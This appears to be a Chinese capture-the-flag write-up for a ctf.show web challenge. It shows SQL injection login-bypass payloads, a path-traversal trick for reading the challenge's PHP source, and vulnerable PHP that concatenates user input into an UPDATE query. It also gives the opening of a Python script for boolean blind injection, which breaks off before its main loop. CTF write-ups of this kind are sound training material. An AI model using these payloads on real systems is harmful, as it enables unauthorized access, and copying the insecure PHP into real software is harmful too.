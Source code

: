 过滤了or和一堆东东，可以用||代替或

构造语句进行登录：

```
/index.php?action=check
post：（两个都行）
username=' || 1%23&password=1
username=' union select 1,2%23&password=1
```

然后在后台找到：

在基本资料那可以修改资料，发现会把数据传到`/api/admin_edit.php`
读一下源码：`/index.php?action=../api/admin_edit`

```php
session_start();
include('../render/db_class.php');

error_reporting(0);
$user= $_SESSION['user'];
$ret = array(
		"code"=>0,
		"msg"=>"查询失败",
		"count"=>0,
		"data"=>array()
	);
if($user){
	extract($_POST);
	$sql = "update user set nickname='".substr($nickname, 0,8)."' where username='".$user['username']."'";
	$db=new db();
	if($db->update_one($sql)){
		$_SESSION['user']['nickname']=$nickname;
		$ret['msg']='管理员信息修改成功';
	}else{
		$ret['msg']='管理员信息修改失败';
	}
	die(json_encode($ret));

}else{
	$ret['msg']='请登录后使用此功能';
	die(json_encode($ret));
}

```

$user['username']可控，那么构造update的bool盲注：

> session可控，而这里是从数据库里拿数据存到sesion里，再从另外一个接口读取session

直接拿群主的脚本：（因为平台有5r/s限制，加个sleep）

```php
import requests
import random
import time

url1='http://62dc1d5f-290e-4992-8a3e-43d72feb6efb.challenge.ctf.show/api/admin_edit.php'
url2="http://62dc1d5f-290e-4992-8a3e-43d72feb6efb.challenge.ctf.show/index.php?action=check"
data={
    "username":"' || 1#",
    "password":1
}
session=requests.session()
session.post(url=url2,data=data)

flag=''
```
